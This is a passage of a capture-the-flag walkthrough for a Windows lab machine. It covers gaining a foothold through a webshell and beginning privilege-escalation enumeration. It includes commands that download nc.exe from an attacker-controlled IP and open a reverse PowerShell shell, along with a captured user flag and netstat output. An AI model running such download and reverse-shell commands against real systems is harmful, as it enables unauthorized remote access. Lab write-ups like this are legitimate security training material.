 Even better I have ncat. Let's share it via a web server.

```
$ cp /usr/share/windows/windows-binaries/ncat.exe .

$ ruby -run -ehttpd . -p8080
```

Need a listener:

```
$ pwncat -l 9999 -vv
```

Download it via the webshell (curl the powershell alias as we are on windows):

```
curl http://10.10.14.146:8080/ncat.exe --output ncat.exe
```

Ncat wasn't working so I retried with nc.

```
curl http://10.10.14.146:8080/nc.exe --output nc.exe
nc.exe 10.10.14.146 9999 -e powershell.exe
```

```
PS C:\xampp\htdocs\gym\upload> whoami
buff\shaun

PS C:\xampp\htdocs\gym\upload> gc C:\Users\shaun\Desktop\user.txt
f03b243a0738b73cb640ee8b7b1928d7
```

## Privilege Escalation of Machine : from shaun to administrator

> Check for restricted services from the outside

Ref. [HackTricks - Windows Local Privilege Escalation - Open Ports](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#open-ports)

```
PS C:\xampp\htdocs\gym\upload> netstat -ano
netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       960
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       5672
  TCP    0.0.0.0:7680           0.0.0.0:0              LISTENING       8564
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING       3176
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       528
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1088
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1548
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       2160
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       668
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       688
...
  TCP    127.0.0.1:3306         0.0.0.0:0              LISTENING       4736
  TCP    127.0.0.1:3306         127.0.0.1:50755        TIME_WAIT       0
  TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       644
...
```
